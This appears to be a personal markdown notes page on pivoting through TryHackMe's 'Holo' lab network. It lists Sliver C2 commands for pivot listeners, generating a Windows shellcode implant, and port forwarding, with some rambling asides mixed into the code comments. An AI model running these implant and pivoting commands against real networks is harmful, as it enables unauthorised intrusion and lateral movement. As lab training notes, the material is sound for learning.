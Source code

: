 [CTHULHU CHURSDAY - Hacking into TryHackMe's "Holo" Network!](https://www.youtube.com/watch?v=-a10dxWbp5M)

#### Back to Holo in 2024


[THM Alh4zr3d  Owning THM Holo Network: 51:11](https://www.youtube.com/watch?v=UCBcpgdKPak)

I am pretty sure that I need I need to have a pivot through LServ1 for my OneDrive -> Cmd.exe looking forward to the awesome name.  

Pivots != `Portfwd`, egress through implants; [Pivoting](https://github.com/BishopFox/sliver/wiki/Pivots) - C2 Traffic
```go
// List all an decide
beacons
// For each required hop 
use $implant
// Requires interactive session
interactive
// List pivots
pivots 
// For implant that will be the pivot listener  
use $session-id
// Open a pivot port
pivots tcp
pivots tcp --bind 0.0.0.0
// get details on a specific pivot listener; graph will display the json with more infowhether it worked. Old day when I am on a Ring World maybe I will get to have friends and famil
pivots detail | pivot graph
// Generate a Pivot Implant  that will connect to the pivot listener 
generate --tcp-pivot 10.10.10.10:6969
```

Some people get there kicks from power, but for me I exist to slowly and methodically fix and try and try and try, like drowning for dopamine. [Like the monkey](https://www.youtube.com/watch?v=FIxYCDbRGJc), except all the hurdles in my life will vanish in time crystallised into moments like this [hilarious douche](https://www.youtube.com/watch?v=Rr7bf6tIzWs).

```
pivots tcp --bind 0.0.0.0

generate --tcp-pivot --arch amd64 --os windows --save /tmp/8446-sliver.win -f shellcode -G
```


[Port-Forwarding](https://github.com/BishopFox/sliver/wiki/Port-Forwarding) - Tunneling generic TCP connections
```go
// By default all port forwards will be bound to the `127.0.0.1` interface, but you can override this using the `--bind` flag
// Local port forward
portfwd add --remote 10.10.10.10:22
// Reverse Port forward
rportfwd add --remote 10.10.10.10:22
// `wg-portfwd` WireGuard Port Foward requires WireGuard 
```
